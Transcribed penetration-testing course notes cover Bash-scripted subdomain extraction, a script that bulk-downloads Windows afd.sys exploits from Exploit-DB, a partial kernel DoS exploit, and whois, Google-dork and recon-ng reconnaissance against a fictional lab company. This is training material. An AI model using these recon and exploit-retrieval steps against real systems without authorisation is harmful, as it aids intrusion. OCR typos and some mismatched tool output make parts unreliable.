keyword, leaving the global variable untouched. The general syntax is:

Let's see how local and global variables work in practice with a simple example:

```
kali@kali:~$ cat ./varscope.sh
#!/bin/bash
# varscope example

name1="John"
name2="Jason"

name_change() {
	local name1="Edward"
	echo "Inside of this function, name1 is $name1 and name2 is $name2"
   	name2="Lucas"
}

echo "Before the function call, name1 is $name1 and name2 is $name2"

name_change

echo "After the function call, name1 is $name1 and name2 is $name2"

kali@kali:~$ chmod +x varscope.sh

kali@kali:~$ ./varscope.sh
Before the function call, name! is John and name2 is Jason
Inside of this function, namel is Edward and name2 is Jason
After the function call, name! is John and name2 is Lucas
```

### Practical Examples

#### Practical Bash Usage - Example 1

In this example, we want to find all the subdomains listed on the main megacorpone.com web page
and find their corresponding IP addresses. Doing this manually would be frustrating and time
consuming, but with some basic Bash commands, we can turn this into an easy task. We'll start by
downloading the index page w ith wget:

```
kali @kali:~$ wget www.megacorpone.com                                                                                     
--2020-12-03 01:59:14--  http://www.megacorpone.com/
Resolving www.megacorpone.com (www.megacorpone.com)... 3.220.87.155
Connecting to www.megacorpone.com (www.megacorpone.com)|3.220.87.155|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14603 (14K) [text/html]
Saving to: ‘index.html’

index.html                        100%[============================================================>]  14.26K  57.3KB/s    in 0.2s    

2020-12-03 01:59:15 (57.3 KB/s) - ‘index.html’ saved [14603/14603]

kali @kali:~$ ls -l index.html 
-rw-r--r-- 1 kali kali 14603 Nov  6  2019 index.html
```

Manually scanning the file, we see many lines we don't need. Let's start narrowing in on lines that
we need, and strip out lines we don't. First. we can use grep "href=" to extract all the lines in
index.html that contain HTML links:

```
kali @kali:~$ grep "href=" index.html                                                         <link rel="shortcut icon" href="assets/ico/favicon.ico">
    <link href="assets/css/bootstrap.css" rel="stylesheet">
    <link href="assets/css/style.css" rel="stylesheet">
    <link href="assets/css/font-awesome.min.css" rel="stylesheet">
                <a class="navbar-brand" href="index.html">MegaCorp One</a>
                    <li class="active"><a href="//www.megacorpone.com/index.html">HOME</a></li>
                    <li><a href="https://www.megacorpone.com/about.html">ABOUT</a></li>
                    <li><a href="/contact.html">CONTACT</a></li>
                    <li><a href="http://support.megacorpone.com">SUPPORT</a></li>
                    <!--<li><a href="https://www.offensive-security.com/offensive-security-solutions/virtual-penetration-testing-labs/">SUPPORT</a></li>-->
                    <li><a href="http://www.megacorpone.com/jobs.html">CAREERS</a></li>
                    <!--<li><a href="http://www.megacorpone.com/jobs2.html">CAREERS</a></li>-->
                    <li><a href="http://intranet.megacorpone.com">LOG IN</a></li>
                    <!--<li><a href="https://cp.megacorpone.net/">LOG IN</a></li>-->
                    <p><br/><a href="about.html" class="btn btn-theme">More Info</a></p>
                    <p><br/><a href="about.html" class="btn btn-theme">More Info</a></p>
                    <p><br/><a href="about.html" class="btn btn-theme">More Info</a></p>
                    <li><a href="http://admin.megacorpone.com/admin/index.html">Cell Regeneration</a></li>
                    <li><a href="http://intranet.megacorpone.com/pear/">Immune Systems Supplements</a></li>
                    <li><a href="http://mail.megacorpone.com/menu/">Micromachine Cyberisation Repair</a></li>
                    <li><a href="http://mail2.megacorpone.com/smtp/relay/">Nanomite Based Weaponry Systems</a></li>
                    <li><a href="http://siem.megacorpone.com/home/">Nanoprobe Based Entity Assimilation</a></li>
                    <li><a href="http://support.megacorpone.com/ticket/requests/index.html">Nanoprocessors</a></li>
                    <li><a href="http://syslog.megacorpone.com/logs/sys/view.php">Perlin VanHook Chemical Dispersal</a></li>
                <p><br/><a href="about.html" class="btn btn-theme">More Info</a></p>
                    <li><a href="http://test.megacorpone.com/demo/index.php">What are the ethics behind MegaCorp One?</a></li>
                    <li><a href="http://vpn.megacorpone.com/diffie-hellman/">Is MegaCorp One being regulated by any goverment?</a></li>
                    <li><a href="http://www.megacorpone.com/aboutus.html">Where can I buy MegaCorp One products?</li>
    	 			<li><a href="http://www2.megacorpone.com/test/newsite/index.php">Is there any environmental concerns related to nanotechnology?</a></li>
                    <li><a href="http://www2.megacorpone.com/test/newsite/index.php">Can I suggest nanotechnology uses for the company to explore?</a></li>
                    <li><a href="http://www2.megacorpone.com/test/newsite/index.php">What are the specs behind MegaCorpOne nanoprocessors?</a></li>
                <p><a href="http://admin.megacorpone.com/news/today.php">MegaCorp One acquires new round of funding.</a></p>
                <p><a href="http://beta.megacorpone.com/util/files/news.html">Lawsuit against MegaCorp One is dropped when plaintiffs go missing.</a></p>
                <p><a href="http://beta.megacorpone.com/util/files/news.html">MegaCorp One CEO Joe Sheer nominated for Nobel Physics, Medicine, and Literature prizes.</a></p>
                    <p><small>This is a fictitious company, brought to you by <a href="https://www.offensive-security.com/" target="_blank">Offensive Security</a>.</small></p>
                        <a href="https://www.facebook.com/MegaCorp-One-393570024393695/" target="_blank"><i class="fa fa-facebook"></i></a>
                        <a href="https://twitter.com/joe_sheer/"><i class="fa fa-twitter"></i></a>
                        <a href="https://www.linkedin.com/company/18268898/" target="_blank"><i class="fa fa-linkedin"></i></a>
                        <a href="https://github.com/megacorpone" target="_blank"><i class="fa fa-github"></i></a>

```

In the excerpt above, the first line is a prime example of what we're looking for as it references a
subdomain.

Let's use grep to grab lines that contain ·.megacorpone", indicating the existence of a subdomain,
and grep -v to strip away lines that contain the boring "www.megacorpone.com" domain we
already know about:

```
kali @kali:~$ grep "href=" index.html | grep "\.megacorpone" | grep -v "www\megacorpone\.com" | head
                    <li class="active"><a href="//www.megacorpone.com/index.html">HOME</a></li>
                    <li><a href="https://www.megacorpone.com/about.html">ABOUT</a></li>
                    <li><a href="http://support.megacorpone.com">SUPPORT</a></li>
                    <li><a href="http://www.megacorpone.com/jobs.html">CAREERS</a></li>
                    <!--<li><a href="http://www.megacorpone.com/jobs2.html">CAREERS</a></li>-->
                    <li><a href="http://intranet.megacorpone.com">LOG IN</a></li>
                    <!--<li><a href="https://cp.megacorpone.net/">LOG IN</a></li>-->
                    <li><a href="http://admin.megacorpone.com/admin/index.html">Cell Regeneration</a></li>
                    <li><a href="http://intranet.megacorpone.com/pear/">Immune Systems Supplements</a></li>
                    <li><a href="http://mail.megacorpone.com/menu/">Micromachine Cyberisation Repair</a></li>
```

This output looks closer to what we need. By reducing our data in a logical way and making
sequentially smaller reductions with each pass, we are in the midst of the most common cycle in
data handling.

It looks like each line contains a link, and a subdomain, but we need to get rid of the extra HTML
around our links. There are always multiple approaches to any task performed in Bash, but we'll
use a little-known one for this. We will use the -F option of awk to set a multi-character delimiter,
unlike cut, which is simple and handy but only allows single-character delim iters. We w ill set our
delimiter to http:// and tell awk we want the second field ('{print $2} '). or everything after that
delimiter:

```
kali @kali:~$ grep "href=" index.html | grep "\.megacorpone" | grep -v "www\megacorpone\.com" | awk -F "http://" '{print $2}' | cut -d "/" -f 1


support.megacorpone.com">SUPPORT<
www.megacorpone.com
www.megacorpone.com
intranet.megacorpone.com">LOG IN<

admin.megacorpone.com
intranet.megacorpone.com
mail.megacorpone.com
mail2.megacorpone.com
siem.megacorpone.com
support.megacorpone.com
syslog.megacorpone.com
test.megacorpone.com
vpn.megacorpone.com
www.megacorpone.com
www2.megacorpone.com
www2.megacorpone.com
www2.megacorpone.com
admin.megacorpone.com
beta.megacorpone.com
beta.megacorpone.com
```

In this example, we will use a simple regular expression to carve ".megacorpone.com· subdomai ns
out of our file:

```
kali@kali:-$ grep -o '[^/]*\megacorpone\.com' index.html | sort -u > list.txt

kali@kali:-$ cat list.txt   
admin.megacorpone.com
beta.megacorpone.com
intranet.megacorpone.com
mail2.megacorpone.com
mail.megacorpone.com
siem.megacorpone.com
support.megacorpone.com
syslog.megacorpone.com
test.megacorpone.com
vpn.megacorpone.com
www2.megacorpone.com
www.megacorpone.com
```

This solution is quite compact, but introduces some new techniques. First, notice the grep -o
option, which only ret urns the string defined in our regular expression. If we form our expression
carefully, this single command will handle much of our previous data carving. The expression itself
looks complex but is fairly straightforward.

```
The string we are searching for('[^/]*\megacorpone\.com') is wrapped in single-quotes,
which, as we mentioned, will not allow variable expansions and will treat all enclosed characters literally.

The first block in the expression ([^/]*) is a negated (^) set ([ ]), which searches for any number of characters (*) not including a forward-slash. Notice that the periods are escaped with a backslash(\.) to reinforce that we are looking for a literal period. Next, the string must end with ·.megacorpone.com". When grep finds a matching string, it will carve it from the line and return it.

For later use, we could include other characters in a negated list by including them in a comma-delimited list. This block, ((^/,"]*), would exclude both forward-slash and double-quote characters, for example.
```

Now we have a nice, clean list of domain names linked from the front page of megacorpone.com.
Next, we will use host to discover the corresponding IP address of each domain name in our text
file. We can use a Bash one-liner loop for this:

```
kali@kali:-$ for url in $(cat list.txt); do host $url; done                   
admin.megacorpone.com has address 3.220.61.179
beta.megacorpone.com has address 3.220.61.179
intranet.megacorpone.com has address 3.220.61.179
mail2.megacorpone.com has address 3.220.61.179
mail.megacorpone.com has address 3.220.61.179
siem.megacorpone.com has address 3.220.61.179
support.megacorpone.com has address 3.212.85.86
syslog.megacorpone.com has address 3.220.61.179
test.megacorpone.com has address 3.220.61.179
vpn.megacorpone.com has address 3.220.61.179
www2.megacorpone.com has address 3.220.61.179
www.megacorpone.com has address 3.220.87.155
```

The host command gives us all sorts of output and not all of it is relevant. We will extract the IP
addresses by piping the output into a grep for "has address·, then cut the results and sort them:

```
kali@kali:-$ for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d" " -f 4 | sort -u 
3.212.85.86
3.220.61.179
3.220.87.155
```

#### Practical Bash Usage - Example 2

In this example, let's assume we are in the middle of a penetration test and have unprivileged
access to a Windows machine. As we continue to collect information, we realize it may be
vulnerable to an exploit that we read about that began with the letters a, f, and d but we can't
remember the full name of the exploit. In an attempt to escalate our privileges, we want to search
for that specific exploit.

To do this, we will need to search https://www.exploit-d b.com for "afd windows·, download the
exploits that match our search criteria, and inspect them until we find the proper one. We could do
this manually through the web site, which wouldn't take too long, but if we take the time to write a
Bash script, we could easily use it to search and automatically download exploits later.

Using what we now know about scripting, let's try to automate this task.

We'll start with the Se8rchSploit 132 utility on Kali Linux. SearchSploit is a command line search tool
for Exploit-DB that allows us to take an offli ne copy of the Exploit Database with us wherever we
go. We will pass "afd windows• as a search string, use -w to return the URL for https://www.exploit-
db.com rather than the local path, and -t to search the exploit title:

```
kali@kali:-$ searchsploit afd windows -w -t                                               
------------------------------------------------------------------------------------------ --------------------------------------------
 Exploit Title                                                                            |  URL
------------------------------------------------------------------------------------------ --------------------------------------------
Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)                 | https://www.exploit-db.com/exploits/40564
Microsoft Windows - 'afd.sys' Local Kernel (PoC) (MS11-046)                               | https://www.exploit-db.com/exploits/18755
Microsoft Windows - 'AfdJoinLeaf' Local Privilege Escalation (MS11-080) (Metasploit)      | https://www.exploit-db.com/exploits/21844
Microsoft Windows 7 (x64) - 'afd.sys' Dangling Pointer Privilege Escalation (MS14-040)    | https://www.exploit-db.com/exploits/39525
Microsoft Windows 7 (x86) - 'afd.sys' Dangling Pointer Privilege Escalation (MS14-040)    | https://www.exploit-db.com/exploits/39446
Microsoft Windows 7 Kernel - Pool-Based Out-of-Bounds Reads Due to bind() Implementation  | https://www.exploit-db.com/exploits/42009
Microsoft Windows XP - 'afd.sys' Local Kernel Denial of Service                           | https://www.exploit-db.com/exploits/17133
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (K-plugin) (MS08-066)    | https://www.exploit-db.com/exploits/6757
Microsoft Windows XP/2003 - 'afd.sys' Local Privilege Escalation (MS11-080)               | https://www.exploit-db.com/exploits/18176

```

This is a good start, but we need to trim the results. For now, we're only interested in the exploit's
URL, so let's grep for "http· and then cut what we need. We will use a "I" field delimiter and extract
the second field:

```
kali@kali:-$ searchsploit afd windows -w -t | grep http | cut -f 2 -d "|"
 https://www.exploit-db.com/exploits/40564
 https://www.exploit-db.com/exploits/18755
 https://www.exploit-db.com/exploits/21844
 https://www.exploit-db.com/exploits/39525
 https://www.exploit-db.com/exploits/39446
 https://www.exploit-db.com/exploits/42009
 https://www.exploit-db.com/exploits/17133
 https://www.exploit-db.com/exploits/6757
 https://www.exploit-db.com/exploits/18176
```


```
kali@kali:~$ for e in $(searchsploit afd windows -w -t | grep http | cut -f 2 -d "|");do exp_name=$(echo $e | cut -d "/" -f 5) && url=$(echo $e | sed 's/exploits/raw/') && wget -q --no-check-certificate $url -O $exp_name; done
```

Once we run it, we wait for the command prompt and verify that the exploits were indeed
downloaded, using file to verify that the files are text:

```
kali@kali:~$ ls -l  
total 408
-rw-r--r-- 1 kali kali   1363 Dec  3 04:17  17133
-rw-r--r-- 1 kali kali  12215 Dec  3 04:17  18176
-rw-r--r-- 1 kali kali   9698 Dec  3 04:17  18755
-rw-r--r-- 1 kali kali  11590 Dec  3 04:17  21844
-rw-r--r-- 1 kali kali  10575 Dec  3 04:17  39446
-rw-r--r-- 1 kali kali  14193 Dec  3 04:17  39525
-rw-r--r-- 1 kali kali  32674 Dec  3 04:17  40564
-rw-r--r-- 1 kali kali  12636 Dec  3 04:17  42009

kali@kali:~$ file 17133
17133: C source, ASCII text, with CRLF line terminators
```


We can inspect each exploit, and see that we did, in fact, grab the raw exploits:

```
$ cat 17133
////////////////////////////////////////////////////////////////////////////
//
// Title: Microsoft Windows xp AFD.sys Local Kernel DoS Exploit
// Author: Lufeng Li of Neusoft Corporation
// Vendor: www.microsoft.com
// Vulnerable: Windows xp sp3
//
/////////////////////////////////////////////////////////////////////////////

#include <stdio.h>
#include <Winsock2.h>

#pragma comment (lib, "ws2_32.lib")

BYTE buf[]={
0xac,0xfd,0xd3,0x00,0x01,0x00,0x00,0x00,0x00,0x00,
0x00,0x00,0x20,0x00,0x00,0x00,0xe8,0xfd,0xd3,0x00,
0xb8,0xfd,0xd3,0x00,0xf8,0xfd,0xd3,0x00,0xc4,0xfd,
0xd3,0x00,0xcc,0xfd,0xd3,0x00};

int main( )
.....
```

Even though we had success with a Bash one-liner, our code is not very clean and it's not
particularly easy to re-use. Let's put everything together in a Bash script to solve these problems:

```
kali@kali:~$ cat dlsploits.sh
#!/bin/bash
# Bash script to search for a given exploit and download all matches.
for e in $(searchsploit afd windows -w -t | grep http | cut -f 2 -d "|")
do
	exp_name=$(echo $e | cut -d "/" -f 5)
	url=$(echo $e | sed 's/exploits/raw/')
	wget -q --no-check-certificate $url -O $exp_name
done

kali@kali:~$ chmod +x ./dlsploits.sh

kali@kali:~$ ./dlsploits.sh
```

#### Practical Bash Usage - Example 3

As penetration testers, we are always trying to find efficiencies to minimize the time we spend
analyzing data, especially the volumes of data we recover during various scans.

Let's assume we are tasked with scanning a class C subnet to identify web servers and determine
whether or not they present an interesting attack surface. Port scanning is the process of
inspecting TCP or UDP ports on a remote machine with t he intention of detecting what services are
running on the target and potentially what attack vectors exist. We will discuss port scanning in
much more detail in another module, but for now, let's keep it general as this is a great example
that shows how Bash scripting can automate a rather tedious task.

In order to accomplish our goal, we would first port scan the entire subnet to pinpoint potential
open web services, then we could manually browse their web pages.

To begin, let's create a temporary folder to be used for this exercise:

```
kal i@kali:~$ mkdir temp

kali @kali:~$ cd temp/
```


## Passive Information Gathering

Passive Information Gathering (also known as Open-source Intelligence or OSINT1 36) is the process
of collecting openly available information about a target, generally without any direct interaction
with that target.

There are a variety of resources and tools we can use to gather this information and the process is
cyclical rather than linear. In other words, the ·next step" of any stage of the process depends on
what we find during the previous steps, creating ffcycles" of processes. Since each tool or resource
can generate any number of varied results, it can be hard to define a standardized process. The
ultimate goal of passive information gathering is to obtain information that clarifies or expands an
attack surface, 137 helps us conduct a successful phishing campaign, or supplements other
penetration testing steps such as password guessing.

Due to the cyclical nature of this process, this module will unfold differently than previous modules.
Instead of presenting linked scenarios, we will simply present various resources and tools, explain
how they work, and arm you with the basic techniques required to build a passive information-
gathering campaign.

Before we begin, we need to define passive information gathering. There are two different schools
of thought on what constitutes "passive· in this context.

In the strictest interpretation, we never communicate with the target directly. For example, we could
rely on third parties for information, but we wouldn't access any of the target's systems or servers.
Using this approach maintains a high level of secrecy about our actions and intentions, but can
also be cumbersome and may limit our results.

In a looser interpretation, we might interact with the target, but only as a normal Internet user would.
For example, if the target's website allows us to register for an account, we could do that. However,
we would not test the website for vulnerabilities during this phase.

### Taking Notes

An information gathering campaign can generate a lot of data, and it's important that we manage
that data well so that we can leverage it in further searches or use it in a later phase. There is no
right or wrong way to take notes. However, we may find it easier to retrieve information later on if
we keep det ailed and wel l formatted notes.


### Website Recon

If the client has a website, we can gather basic information by simply browsing the site. Small
organizations may only have a single website, while large organizations might have many, including
some that are not maintained. Let's check out MegaCorp One's website (https://www.megacorpone.com/) to learn more about our target.

- The about page at https://www.megacorpone.com/about.html reveals email addresses and Twitter
  accounts of some of their employees:

- It's also worth mentioning that the company's email address format follows a pattern of "first initial
  last name·. However, their CEO's email address simply uses his first name. Th[s indicates that
  founders or long-time employees have a different email format than newer hires. This information
  could be useful in a later stage of the assessment.

- Corporate social media accounts, found on the same page, are also worth recording for further
  research:

### Whois Enumeration

Whois 139 is a TCP service, tool, and a type of database that can provide information about a domain
name, such as the name server  and registrar. This information is often public since registrars
charge a fee for private registration.

We can gather basic information about a domain name by executing a standard forward search by
passing the domain name, megacorpone.com, into the whoi s client

```
kali @kali:~$ whois megacorpone.com
   Domain Name: MEGACORPONE.COM
   Registry Domain ID: 1775445745_DOMAIN_COM-VRSN
   Registrar WHOIS Server: whois.gandi.net
   Registrar URL: http://www.gandi.net
   Updated Date: 2020-06-16T17:05:41Z
   Creation Date: 2013-01-22T23:01:00Z
   Registry Expiry Date: 2024-01-22T23:01:00Z
   Registrar: Gandi SAS
   Registrar IANA ID: 81
   Registrar Abuse Contact Email: abuse@support.gandi.net
   Registrar Abuse Contact Phone: +33.170377661
   Domain Status: clientTransferProhibited https://icann.org/epp#clientTransferProhibited
   Name Server: NS1.MEGACORPONE.COM
   Name Server: NS2.MEGACORPONE.COM
   Name Server: NS3.MEGACORPONE.COM
   DNSSEC: unsigned
   URL of the ICANN Whois Inaccuracy Complaint Form: https://www.icann.org/wicf/
...
Registry Registrant ID: 
Registrant Name: Alan Grofield
Registrant Organization: MegaCorpOne
Registrant Street: 2 Old Mill St
Registrant City: Rachel
Registrant State/Province: Nevada
Registrant Postal Code: 89001
Registrant Country: US
Registrant Phone: +1.9038836342
Registrant Phone Ext:
Registrant Fax: 
Registrant Fax Ext:
Registrant Email: 3310f82fb4a8f79ee9a6bfe8d672d87e-1696395@contact.gandi.net
Registry Admin ID: 
Admin Name: Alan Grofield
Admin Organization: MegaCorpOne
Admin Street: 2 Old Mill St
Admin City: Rachel
Admin State/Province: Nevada
Admin Postal Code: 89001
Admin Country: US
Admin Phone: +1.9038836342
Admin Phone Ext:
Admin Fax: 
Admin Fax Ext:
Admin Email: 3310f82fb4a8f79ee9a6bfe8d672d87e-1696395@contact.gandi.net
Registry Tech ID: 
Tech Name: Alan Grofield
Tech Organization: MegaCorpOne
Tech Street: 2 Old Mill St
Tech City: Rachel
Tech State/Province: Nevada
Tech Postal Code: 89001
Tech Country: US
Tech Phone: +1.9038836342
Tech Phone Ext:
Tech Fax: 
Tech Fax Ext:
Tech Email: 3310f82fb4a8f79ee9a6bfe8d672d87e-1696395@contact.gandi.net
Name Server: NS1.MEGACORPONE.COM
Name Server: NS2.MEGACORPONE.COM
Name Server: NS3.MEGACORPONE.COM
...
```

- Not all of this data is useful, but we did discover some valuable information. First, the output reveals
  that Alan Grofield registered the domain name. According to the Megacorp One Contact page, Alan
  is the "IT and Security Director·.

- We also found the name servers for MegaCorp One. Name servers are a component of DNS, which
  we won't be examining here, but we should add these servers to our notes.

In addition to this standard forward lookup, which gathers information about a DNS name, the whois client can also perform reverse lookups. 

Assuming we have an IP address, we can perform   a reverse lookup to gather more information about it:

```
kali @kali:~$ whois 38.188.193.79                                                         
#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2020, American Registry for Internet Numbers, Ltd.
#


NetRange:       38.0.0.0 - 38.255.255.255
CIDR:           38.0.0.0/8
NetName:        COGENT-A
NetHandle:      NET-38-0-0-0-1
Parent:          ()
NetType:        Direct Allocation
OriginAS:       AS174
Organization:   PSINet, Inc. (PSI)
RegDate:        1991-04-16
Updated:        2018-06-20
Comment:        IP allocations within 38.0.0.0/8 are used for Cogent customer static IP assignments.
Comment:        
Comment:        Reassignment information for this block can be found at
Comment:        rwhois.cogentco.com 4321
Ref:            https://rdap.arin.net/registry/ip/38.0.0.0

```

- The results of the reverse lookup gives us information on who is hosting the IP address. This
  informatlon could be useful later, and as with all the information we gather, we will add this to our
  notes.

### Google Hacking

https://www.exploit-db.com/google-hacking-database

```
site:megacorpone.com filetype:php
```

For example, to find interesting, non-HTML pages, we can use s;te:megacorpone.com to limit the
search to megacorpone.com and subdomains, followed by -filetype:html to exclude HTML
pages from the results:

```
site:megacorpone.com -filetype:html
```

In another example, we can use a search for intitle:"index of" "parent directory" to find
pages that contain ·index of· in the title and the words "parent directory" on the page.

```
intittle:"index of" "parentdirectory"
```

### Netcraft

https://searchdns.netcraft.com/


For each server found, we can view a "site report· that provides additional information and history
about the server by clicking on the file icon next to each site URL.


### Recon-ng

Recon-ng is a module-based framework for web-based information gathering. Recon-ng displays
the results of a module to the terminal but it also stores them in a database. Much of the power of
recon-ng lies in feeding the results of one module into another, allowing us to quickly expand the
scope of our information gathering.

Let's use recon-ng to compile interesting data about MegaCorp One. To get started, let's simply run
recon-ng:

```
$ recon-ng 
[*] Version check disabled.

    _/_/_/    _/_/_/_/    _/_/_/    _/_/_/    _/      _/            _/      _/    _/_/_/
   _/    _/  _/        _/        _/      _/  _/_/    _/            _/_/    _/  _/       
  _/_/_/    _/_/_/    _/        _/      _/  _/  _/  _/  _/_/_/_/  _/  _/  _/  _/  _/_/_/
 _/    _/  _/        _/        _/      _/  _/    _/_/            _/    _/_/  _/      _/ 
_/    _/  _/_/_/_/    _/_/_/    _/_/_/    _/      _/            _/      _/    _/_/_/    


                                          /\
                                         / \\ /\
    Sponsored by...               /\  /\/  \\V  \/\
                                 / \\/ // \\\\\ \\ \/\
                                // // BLACK HILLS \/ \\
                               www.blackhillsinfosec.com

                  ____   ____   ____   ____ _____ _  ____   ____  ____
                 |____] | ___/ |____| |       |   | |____  |____ |
                 |      |   \_ |    | |____   |   |  ____| |____ |____
                                   www.practisec.com

                      [recon-ng v5.1.1, Tim Tomes (@lanmaster53)]                       

[2] Recon modules
```

According to the output, we need to install various modules to use recon-ng.

We can add modules from the recon-ng "Marketplace". 150 We'll search the marketplace from the main prompt with marketplace search, providing a search string as an argument.

In this example, we will search for modules that contain the term gi thub:

```
[recon-ng][default] > marketplace search github
[*] Searching module index for 'github'...

  +------------------------------------------------------------------------------------------------+
  |                       Path                      | Version |     Status    |  Updated   | D | K |
  +------------------------------------------------------------------------------------------------+
  | recon/companies-multi/github_miner              | 1.1     | not installed | 2020-05-15 |   | * |
  | recon/profiles-contacts/github_users            | 1.0     | not installed | 2019-06-24 |   | * |
  | recon/profiles-profiles/profiler                | 1.0     | not installed | 2019-06-24 |   |   |
  | recon/profiles-repositories/github_repos        | 1.1     | not installed | 2020-05-15 |   | * |
  | recon/repositories-profiles/github_commits      | 1.0     | not installed | 2019-06-24 |   | * |
  | recon/repositories-vulnerabilities/github_dorks | 1.0     | not installed | 2019-06-24 |   | * |
  +------------------------------------------------------------------------------------------------+

  D = Has dependencies. See info for details.
  K = Requires keys. See info for details.

```

We can learn more about a module by using marketplace info followed by the module name. Since the Git Hub modules require API keys, let's use this command to examine the recon/domains-hosts/google_site_web module:

```
[recon-ng][default] > marketplace info recon/domains-hosts/google_site_web

  +---------------------------------------------------------------------------------------------------------------------------------+
  | path          | recon/domains-hosts/google_site_web                                                                             |
  | name          | Google Hostname Enumerator                                                                                      |
  | author        | Tim Tomes (@lanmaster53)                                                                                        |
  | version       | 1.0                                                                                                             |
  | last_updated  | 2019-06-24                                                                                                      |
  | description   | Harvests hosts from Google.com by using the 'site' search operator. Updates the 'hosts' table with the results. |
  | required_keys | []                                                                                                              |
  | dependencies  | []                                                                                                              |
  | files         | []                                                                                                              |
  | status        | installed                                                                                                       |
  +---------------------------------------------------------------------------------------------------------------------------------+
```

According to its description, this module searches Google with the "site· operator and it doesn't
require an API key. Let's install the module with marketplace install:

```
[ recon-ng][default] > marketplace install recon/domains-hosts/google_site_web
[ *] Module installed: recon/domains-hosts/googl e_site_web
[ * ] Reloading modules .••
[ recon-ng][default] >
```

After installing the module, we can load it with module load followed by its name. Then, we'll use
info to display details about the module and required parameters:

```
[recon-ng][default] > modules load recon/domains-hosts/google_site_web
[recon-ng][default][google_site_web] > info

      Name: Google Hostname Enumerator
    Author: Tim Tomes (@lanmaster53)
   Version: 1.0

Description:
  Harvests hosts from Google.com by using the 'site' search operator. Updates the 'hosts' table with
  the results.

Options:
  Name    Current Value    Required  Description
  ------  -------------    --------  -----------
  SOURCE  megacorpone.com  yes       source of input (see 'info' for details)

Source Options:
  default        SELECT DISTINCT domain FROM domains WHERE domain IS NOT NULL
  <string>       string representing a single input
  <path>         path to a file containing a list of inputs
  query <sql>    database query returning one column of inputs
```


In this case. we will use opt;ons set SOURCE megacorpone.com to set our target domain:

```
[ recon-ng) [default] [google_site_web] > options set SOURCE megacorpone.com
SOURCE => megacorpone.com
```

Finally, we run the module:

```
[recon-ng][default][google_site_web] > run

---------------
MEGACORPONE.COM
---------------
[*] Searching Google for: site:megacorpone.com
[*] Country: None
[*] Host: www.megacorpone.com
[*] Ip_Address: None
[*] Latitude: None
[*] Longitude: None
[*] Notes: None
[*] Region: None
[*] --------------------------------------------------
[*] Searching Google for: site:megacorpone.com -site:www.megacorpone.com
[*] No New Subdomains Found on the Current Page. Jumping to Result 201.
[*] Searching Google for: site:megacorpone.com -site:www.megacorpone.com
[*] No New Subdomains Found on the Current Page. Jumping to Result 301.
[*] Searching Google for: site:megacorpone.com -site:www.megacorpone.com
[*] No New Subdomains Found on the Current Page. Jumping to Result 401.
[*] Searching Google for: site:megacorpone.com -site:www.megacorpone.com
[*] No New Subdomains Found on the Current Page. Jumping to Result 501.
[*] Searching Google for: site:megacorpone.com -site:www.megacorpone.com
```

The results mirror what we found from the Netcraft DNS search. However, we haven't wasted our
time here. Recon-ng stores results in a local database and these results will feed into other recon-
ng modules.

We can use the show hosts command to view stored data:

```
[recon-ng][default][google_site_web] > back
[recon-ng][default] > show
Shows various framework items

Usage: show <companies|contacts|credentials|domains|hosts|leaks|locations|netblocks|ports|profiles|pushpins|repositories|vulnerabilities>

[recon-ng][default] > show hosts

  +----------------------------------------------------------------------------------------------------------------+
  | rowid |         host        |  ip_address  | region | country | latitude | longitude | notes |      module     |
  +----------------------------------------------------------------------------------------------------------------+
  | 1     | www.megacorpone.com | 3.220.87.155 |        |         |          |           |       | google_site_web |
  +----------------------------------------------------------------------------------------------------------------+

[*] 1 rows returned
[recon-ng][default] > 
```

Let's examine recon/hosts-hosts/resolve with marketplace info:

```
[recon-ng][default] > marketplace info recon/hosts-hosts/resolve

  +-------------------------------------------------------------------------------------------------+
  | path          | recon/hosts-hosts/resolve                                                       |
  | name          | Hostname Resolver                                                               |
  | author        | Tim Tomes (@lanmaster53)                                                        |
  | version       | 1.0                                                                             |
  | last_updated  | 2019-06-24                                                                      |
  | description   | Resolves the IP address for a host. Updates the 'hosts' table with the results. |
  | required_keys | []                                                                              |
  | dependencies  | []                                                                              |
  | files         | []                                                                              |
  | status        | installed                                                                       |
  +-------------------------------------------------------------------------------------------------+
```

The module description suits our needs so we will install it with marketplace install:

```
[recon-ng][default] > marketplace install recon/hosts-hosts/resolve
[*) Module installed: recon/hosts-hosts/resolve
[*] Reloading modules .•.
```

Once the module is installed, we can use it with 111odutes toad, and run info to display information
about the module and its options:

```
[recon-ng][default] > modules load recon/hosts-hosts/resolve
[recon-ng][default][resolve] > info

      Name: Hostname Resolver
    Author: Tim Tomes (@lanmaster53)
   Version: 1.0

Description:
  Resolves the IP address for a host. Updates the 'hosts' table with the results.

Options:
  Name    Current Value  Required  Description
  ------  -------------  --------  -----------
  SOURCE  default        yes       source of input (see 'info' for details)

Source Options:
  default        SELECT DISTINCT host FROM hosts WHERE host IS NOT NULL AND ip_address IS NULL
  <string>       string representing a single input
  <path>         path to a file containing a list of inputs
  query <sql>    database query returning one column of inputs

Comments:
  * Note: Nameserver must be in IP form.
```

Let's try this out by leaving our source set to "default* and then run the module:

```
[ recon-ng][default] [resolve] > run
[*] www. megacorpone.com => 38.100.193.76
[ *] vpn.megacorpone.com => 38.100.193.77
[*] www2.megacorpone.com => 38.100.193.79
[*] siem.megacorpone.com => 38.100.193.89
```

Nice. We now have IP addresses for the four domains.

If we show hosts again, we can verify the database has been updated with the results of both
modules:

```
[recon-ng][default][resolve] > show hosts

  +----------------------------------------------------------------------------------------------------------------+
  | rowid |         host        |  ip_address  | region | country | latitude | longitude | notes |      module     |
  +----------------------------------------------------------------------------------------------------------------+
  | 1     | www.megacorpone.com | 3.220.87.155 |        |         |          |           |       | google_site_web |
  +----------------------------------------------------------------------------------------------------------------+

[*] 1 rows returned
```

### Open-Source Code

In the following sections, we will discuss various online tools and resources that can be used to passively search for information. One such source of interesting information are open-source projects and online code repositories, such as GitHub, Gitlab, and SourceForge.

Code stored online can provide a glimpse into the programming languages and frameworks used by an organization. In some rare occasions, developers have even accidentally committed sensitive data and credentials to public repos.

The search tools for some of these platforms will support the Google search operators that we discussed earlier in this module.

For example, GitHub's search is very flexible. On GitHub, we will be able to search a user's or organization's repos, but we need an account if we want to search across al l public repos.

In a previous module, we identified MegaCorp One's GitHub account.

